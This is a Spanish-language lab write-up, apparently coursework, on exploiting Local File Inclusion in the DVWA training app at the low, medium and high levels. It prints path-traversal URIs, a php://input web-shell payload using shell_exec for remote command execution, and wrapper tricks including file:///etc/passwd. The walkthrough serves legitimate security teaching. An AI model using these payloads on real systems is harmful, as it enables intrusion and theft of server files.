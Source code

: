 # LFI

Local File Inclusion (LFI) es una vulnerabilidad que permite a un atacante leer archivos arbitrarios en el servidor. Esto puede ser utilizado para leer archivos sensibles como `config.php` o para leer el código fuente de la aplicación.

## Bajo

Sabiendo que el archivo `fi.php` existe, podemos intentar leerlo con la siguiente URI:
```
http://localhost/DVWA/vulnerabilities/fi/?page=../../hackable/flags/fi.php
```

![Path Traversal](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/primerPaso.png)
Como se puede observar en la imágen, el archivo `fi.php` es leído y mostrado en la página aunque no hemos conseguido leer las 5 citas que contiene.

Para intetar leer el archivo completo, podemos intentar ejecutar commandos en el servidor, para ello nos ayudaremos de Burp Suite, que nos permitirá modificar la petición que se envía al servidor.

Como primera prueba realizamos una petición GET a la URI para obtener información sobre el servidor:

> **Nota:** Burp Suite debe tener la opcion `Intercept is on` activada para poder modificar las peticiones.

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=id
```

una vez interceptada la petición, podemos modificarla para que se envíe un comando al servidor, para ello añadimmos el siguiente comando al final de la petición y a continuación pulsamos `Forward`:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

![intercept](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/intercept.png)

como podemos observar en la imágen, el servidor nos devuelve la información del usuario que está ejecutando el servidor web.

![forward](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/forward.png)

Una vez comprobado podemos ejecutar comandos en el servidor, podemos intentar leer el archivo `fi.php` de la misma manera:

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=cat%20/var/www/html/DVWA/hackable/flags/fi.php
```

![challenge](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/challenge.png)

## Medio

Realizando la misma prueba que en el nivel bajo con la URI que conseguia mostrar el contenido del archivo `fi.php`.

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=cat%20/var/www/html/DVWA/hackable/flags/fi.php
```    

Al igual que antes, añadimos la siguiente linea código al final de la petición, de tal manera que ejecute el comando `cat` para leer el archivo `fi.php` y lo muestre en la página.

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

![lfi-m](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/lfi-m.png)

Una vez modificada la petición, pulsamos `Forward` para enviarla al servidor y obtener el contenido del archivo `fi.php`.

![challenge-2](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/challenge-2.png)

## Alto

Al contrario que en los niveles anteriores, en este nivel no podemos modificar la petición que se envía al servidor para obtener ejecución remota de comandos, por lo que tendremos que encontrar otra forma de leer el archivo `fi.php`.

Para comprobar que no podemos modificar la petición, se han realizado distintas pruebas sobre la URI para intentar bypassar el filtro de entrada de datos, pero ninguna de ellas ha funcionado.

```
...?page=php://input&cmd=id
...?page=filephp://input&cmd=id
...?page=file php://input&cmd=id
...?page=file:///etc/passwd&php://input&cmd=id
```

Lo máximo que se ha posido obtener ha sido gracias al wrapper `file://`.

```
http://localhost/DVWA/vulnerabilities/fi/?page=file:///var/www/html/DVWA/hackable/flags/fi.php
```

![challenge-3](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/challenge-3.png)

## Imposible